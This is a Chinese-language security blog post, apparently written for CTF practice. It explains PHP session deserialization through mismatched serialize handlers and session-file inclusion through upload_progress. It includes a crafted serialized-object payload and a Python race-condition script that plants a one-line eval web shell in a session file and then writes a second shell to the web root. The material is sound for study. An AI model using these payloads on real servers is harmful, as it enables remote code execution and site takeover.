




session反序列化
session的存储机制
php<?php error_reporting(0); echo "serialize_handler: ".ini_get("session.serialize_handler")."<br />"; echo "path: ".ini_get("session.save_path"); ini_set("session.serialize_handler", "php"); session_start(); $_SESSION['username'] = $_GET['username']; ?>username|s:3:"asd";键名+ | + 序列化之后的数据
php_serializea:1:{s:8:"username";s:3:"asd";}直接将这个session数据进行序列化
php_binary
键名的长度对应的ASCII字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
利用
如果 PHP 在反序列化存储的 SESSION 数据时使用的处理器和序列化时使用的处理器不同，可能会导致数据无法正确反序列化，经过构造甚至可以执行代码
实例
一个用于存储session的代码
?php
error_reporting(0);
echo "serialize_handler: ".ini_get("session.serialize_handler")."<br />";
echo "path: ".ini_get("session.save_path");
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['username'] = $_GET['username'];
?>
一个用于访问session的代码
<?php
error_reporting(0);
ini_set("session.serialize_handler", "php");
echo ini_get("session.serialize_handler")."<br/>";
session_start();
class test {
public $name = "wrong";
function __wakeup(){
echo "this is __wakeup";
}
function __destruct(){
echo "I am ".$this->name;
}
}
$str = new test();
?>
构建payload:
<?php
class test {
public $name = "wrong";
function __wakeup(){
echo "this is __wakeup";
}
function __destruct(){
echo "I am ".$this->name;
}
}
$str = new test();
$str->name = "true";
echo serialize($str);
?>O:4:"test":1:{s:4:"name";s:4:"true";}
如果将他在前面加上|传入session中，因为存储用的引擎是php_serialize，会将这个sessIon数组序列化，然而在class.php中访问session使用的是php引擎，会把我们payload上添加的|前认为键，payload认为是需要反序列化的数据
存入的session文件

访问class.php

成功反序列化
session文件包含
session.upload_progress.enabled可以控制是否开启session.upload_progress功能
session.upload_progress.cleanup可以控制是否在上传之后删除文件内容
session.upload_progress.prefix可以设置上传文件内容的前缀
session.upload_progress.name的值即为session中的键值
实例
test.php
<?php
ini_set("session.upload_progress.enabled","On");
ini_set("session.upload_progress.cleanup","On")
$a = $_GET['a'];
include($a);
?>之后通过一个python脚本创建自定义的session文件
import requests
import io
url = "http://127.0.0.1:8000/test1.php"
sessid = "Lxxx"
def write(session):
filebytes = io.BytesIO(b'a' * 1024 * 50)
while True:
res = session.post(url,
data={
'PHP_SESSION_UPLOAD_PROGRESS': "<?php eval($_POST[1]);?>"
},
cookies={
'PHPSESSID': sessid
},
files={
'file': ('Lxxx.jpg', filebytes)
}
)
if __name__ == "__main__":
with requests.session() as session:
write(session)但是在他生成这个session之后就立马删除了，我们通过竞争读取这个文件内容
有两块内容：
第一块：
upload_progress_
这一块内容由以下两个值组成：
session.upload_progress.name+PHP_SESSION_UPLOAD_PROGRESS第二块
就是一串序列化的数据
首先，函数write和上面的是一样的，这里就不做过多的赘述了
整个代码的思路就是，往/tmp/sess_Lxxx文件中写入一句话木马，密码为1，然后用题目中的文件包含漏洞，包含这一个文件，在函数read中尝试利用/tmp/sess_Lxxx的一句话往网站根目录文件1.php写一句话木马，密码为2
利用Python的多线程，一边上传文件，一边尝试往根目录中写入1.php，如果成功写入了，就打印输出“成功写入一句话”
这里利用Python的threading模块，开5个线程进行条件竞争


- Post link: https://roboterh.github.io/2022/06/08/session%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8Esession%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.